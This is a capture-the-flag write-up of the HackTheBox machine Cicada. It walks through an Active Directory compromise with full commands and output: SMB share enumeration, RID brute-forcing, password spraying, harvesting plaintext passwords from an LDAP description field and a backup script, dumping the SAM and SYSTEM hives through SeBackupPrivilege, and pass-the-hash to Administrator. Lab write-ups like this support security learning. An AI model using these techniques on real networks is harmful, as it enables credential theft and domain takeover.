

# Cicada - HackTheBox Writeup

[Cicada](https://app.hackthebox.com/machines/Cicada) is an Easy Windows machine on HackTheBox. It's built around beginner-friendly Active Directory enumeration and exploitation: an anonymously readable SMB share leaks a default password, RID brute-forcing exposes the domain's user list, a password spray lands a low-privileged foothold, and from there a trail of leftover credentials — one sitting in an LDAP description field, another hardcoded in a backup script — leads to a user whose `SeBackupPrivilege` makes it possible to dump the SAM database and pass-the-hash straight to Administrator.

## Box Info

- **Name:** Cicada
- **Difficulty:** Easy
- **OS:** Windows
- **Release Date:** 28 Sep 2024
- **Retire Date:**
- **Creator:** theblxckcicada

------



## Recon

### nmap

> **nmap -p- --min-rate 10000 -oN cicada_initial 10.129.73.59**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ nmap -p- --min-rate 10000 -oN cicada_initial 10.129.73.59
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```

The port list already smells like Active Directory, so I went deeper on those services.

> **nmap -p53,135,139,445,593,52840,464,636,3268,3269,5985 -sCV -oN cicada_deep 10.129.73.59**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ nmap -p53,135,139,445,593,52840,464,636,3268,3269,5985 -sCV  -oN cicada_deep 10.129.73.59
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-18 21:33 EEST
Nmap scan report for 10.129.73.59
Host is up (0.22s latency).

PORT      STATE    SERVICE        VERSION
53/tcp    open     domain         (generic dns response: SERVFAIL)
135/tcp   open     msrpc          Microsoft Windows RPC
139/tcp   open     netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   filtered http-rpc-epmap
636/tcp   open     ssl/ldap       Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: DNS:CICADA-DC.cicada.htb
3268/tcp  open     ldap           Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp  open     ssl/ldap       Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp  open     http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
52840/tcp filtered unknown
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.10 seconds
```

This confirmed the domain name, `cicada.htb`, along with LDAP, SMB, and WinRM all open:

```bash
3268/tcp  open     ldap           Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
```

I added the DC to `/etc/hosts`:

> **echo "10.129.73.59  cicada-dc" | sudo tee -a /etc/hosts**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ echo "10.129.73.59  cicada-dc" | sudo tee -a /etc/hosts
10.129.73.59  cicada-dc
```

------

## DNS / SMB Enumeration

### DNS — Zone Transfer (Failed)

> **dig axfr @10.129.73.59 cicada-dc**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ dig axfr @10.129.73.59 cicada-dc

; <<>> DiG 9.20.9-1-Debian <<>> axfr @10.129.73.59 cicada-dc
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

### Enumerate SMB

> **smbclient -L \\\\cicada-dc\\**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ smbclient -L  \\cicada-dc\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DEV             Disk
        HR              Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
```

A handful of shares turned up. I tried connecting to each as an anonymous user — `HR` was the only one that let me in:

> **smbclient \\\\cicada-dc\\DEV**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ smbclient  \\\\cicada-dc\\DEV
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> ^C
```

> **smbclient \\\\cicada-dc\\HR**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ smbclient  \\\\cicada-dc\\HR
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 14:29:09 2024
  ..                                  D        0  Thu Mar 14 14:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 20:31:48 2024

                4168447 blocks of size 4096. 481544 blocks available
smb: \>
```

`DEV` was locked down, but `HR` had one file worth grabbing — `Notice from HR.txt`:

> **mget "Notice from HR.txt"**

```bash
smb: \> mget "Notice from HR.txt"
Get file Notice from HR.txt? yes
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (1.8 KiloBytes/sec) (average 1.8 KiloBytes/sec)
smb: \> ^C
```

Reading it revealed a default password meant for a new hire whose account I didn't know yet:

> **cat Notice\ from\ HR.txt**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ cat Notice\ from\ HR.txt

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Password recovered: `Cicada$M6Corpb*@Lp#nZp!8`. Now I needed a list of valid usernames to spray it against.

------

## Initial Access — RID Brute-Force + Password Spray

> **What is this?** Every AD account has a SID ending in a RID (Relative Identifier), and RIDs are assigned sequentially. If you can authenticate anonymously or as guest, you can walk through RID values and resolve each one back to a username — enumerating the full user list without any real credentials. From there, spraying one known password across every discovered account is far less likely to trigger lockouts than brute-forcing one account with many passwords.

I ran a RID brute-force with NetExec using the guest account:

> **nxc smb cicada-dc -u guest -p '' --rid-brute**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ nxc smb cicada-dc -u guest -p '' --rid-brute
SMB         10.129.73.59    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.73.59    445    CICADA-DC        [+] cicada.htb\guest:
SMB         10.129.73.59    445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.73.59    445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

A full list of accounts came back. I filtered it down to just the usernames:

> **netexec smb CICADA-DC -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\\' -f2 | cut -d' ' -f1 | tee users**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜  netexec smb CICADA-DC -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

With a user list and the default password from HR's notice, I sprayed it across every account. It worked against `michael.wrightson`:

> **netexec smb CICADA-DC -u users -p 'Cicada$M6Corpb*@Lp#nZp!8'**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ netexec smb CICADA-DC -u users -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.129.73.59    445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.73.59    445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.73.59    445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.73.59    445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.73.59    445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.73.59    445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

------

## Pivoting — LDAP Description Field → Backup Script

`michael.wrightson`'s credentials didn't work over WinRM:

> **evil-winrm -i cicada-dc -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ evil-winrm -i 10.129.231.149 -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpclear
```

So I checked what SMB access the account actually had, hoping it had more than the anonymous session did:

> **netexec smb CICADA-DC -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ netexec smb CICADA-DC -u michael.wrightson  -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.129.73.59    445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.129.73.59    445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.73.59    445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.73.59    445    CICADA-DC        C$                              Default share
SMB         10.129.73.59    445    CICADA-DC        DEV
SMB         10.129.73.59    445    CICADA-DC        HR              READ
SMB         10.129.73.59    445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.73.59    445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.129.73.59    445    CICADA-DC        SYSVOL          READ            Logon server share
```

Nothing new there, so I moved on to LDAP enumeration instead:

> **nxc ldap cicada-dc -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ nxc ldap cicada-dc -u michael.wrightson  -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
LDAP        10.129.73.59    389    CICADA-DC        [*] Enumerated 8 domain users: cicada.htb
LDAP        10.129.73.59    389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        10.129.73.59    389    CICADA-DC        Administrator                 2024-08-26 23:08:03 1        Built-in account for administering the computer/domain
LDAP        10.129.73.59    389    CICADA-DC        Guest                         2024-08-28 20:26:56 1        Built-in account for guest access to the computer/domain
LDAP        10.129.73.59    389    CICADA-DC        krbtgt                        2024-03-14 13:14:10 1        Key Distribution Center Service Account
LDAP        10.129.73.59    389    CICADA-DC        john.smoulder                 2024-03-14 14:17:29 1
LDAP        10.129.73.59    389    CICADA-DC        sarah.dantelia                2024-03-14 14:17:29 1
LDAP        10.129.73.59    389    CICADA-DC        michael.wrightson             2024-03-14 14:17:29 0
LDAP        10.129.73.59    389    CICADA-DC        david.orelious                2024-03-14 14:17:29 0        Just in case I forget my password is aRt$Lp#7t*VQ!3
```

`david.orelious` had a plaintext password sitting right in the account description field: `aRt$Lp#7t*VQ!3`. I checked what that account could access:

> **netexec smb CICADA-DC -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ netexec smb CICADA-DC -u david.orelious  -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.129.73.59    445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB         10.129.73.59    445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.73.59    445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.73.59    445    CICADA-DC        C$                              Default share
SMB         10.129.73.59    445    CICADA-DC        DEV             READ
SMB         10.129.73.59    445    CICADA-DC        HR              READ
SMB         10.129.73.59    445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.73.59    445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.129.73.59    445    CICADA-DC        SYSVOL          READ            Logon server share
```

This account had read access to `DEV`, the share that had refused me earlier:

> **smbclient -U david.orelious \\\\cicada-dc\\DEV**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ smbclient  -U david.orelious \\\\cicada-dc\\DEV
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 14:31:39 2024
  ..                                  D        0  Thu Mar 14 14:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 20:28:22 2024

                4168447 blocks of size 4096. 481066 blocks available
smb: \>
```

A backup script — these often run as a service account and hardcode its credentials:

> **cat Backup_script.ps1**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ cat Backup_script.ps1

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Exactly that — plaintext credentials for `emily.oscars`: `Q!3@Lp#M6b*7t*Vt`.

------

## Foothold — Evil-WinRM

> **evil-winrm -i cicada-dc -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ evil-winrm -i cicada-dc -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

This credential worked, giving me a shell as `emily.oscars`. User flag:

> **ls** *(Desktop)*

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> ls

    Directory: C:\Users\emily.oscars.CICADA\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        10/20/2026   7:58 AM             34 user.txt
```

------

## Privilege Escalation — SeBackupPrivilege

Before reaching for BloodHound, I checked what privileges this account actually had:

> **whoami /priv**

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

> **What is this?** `SeBackupPrivilege` lets an account read any file on the system — including the SAM, SECURITY, and SYSTEM registry hives — bypassing normal file ACLs, because Windows backup software needs to be able to read everything regardless of permissions. With this right, you can pull the local SAM database offline and crack it, without ever needing to touch LSASS or trigger EDR the way a credential dump normally would.

I saved the `SYSTEM` and `SAM` hives to disk:

> **reg save HKLM\SYSTEM SYSTEM.SAV / reg save HKLM\SAM SAM.SAV**

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SYSTEM SYSTEM.SAV
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SAM SAM.SAV
The operation completed successfully.
```

Then downloaded both:

> **download SAM.SAV / download SYSTEM.SAV**

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download SAM.SAV

Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\SAM.SAV to SAM.SAV

Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download SYSTEM.SAV

Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\SYSTEM.SAV to SYSTEM.SAV

Info: Download successful!
```

------

## Dumping the Administrator Hash

> **impacket-secretsdump -sam SAM.SAV -system SYSTEM.SAV local**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ impacket-secretsdump -sam SAM.SAV -system SYSTEM.SAV local
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

With the Administrator NTLM hash in hand, I passed it straight to evil-winrm:

> **evil-winrm -i cicada-dc -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/cicada
└─👀 ➜ evil-winrm -i cicada-dc -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Root flag:

> **ls** *(Desktop)*

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> ls

    Directory: C:\Users\Administrator\desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        10/20/2026   7:58 AM             34 root.txt
```

Domain Admin / SYSTEM obtained. Solved – happy hacking!

------

**Find me online**:

- TryHackMe: [t4t4r1s](https://tryhackme.com/p/t4t4r1s)
- HackTheBox: [t4t4r1s](https://app.hackthebox.com/users/2203575)
- LinkedIn: [Mustafa Eltayeb](https://www.linkedin.com/in/t4t4r1s)
- X: [@mustafa_altayeb](https://x.com/t4t4r1s)

------

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>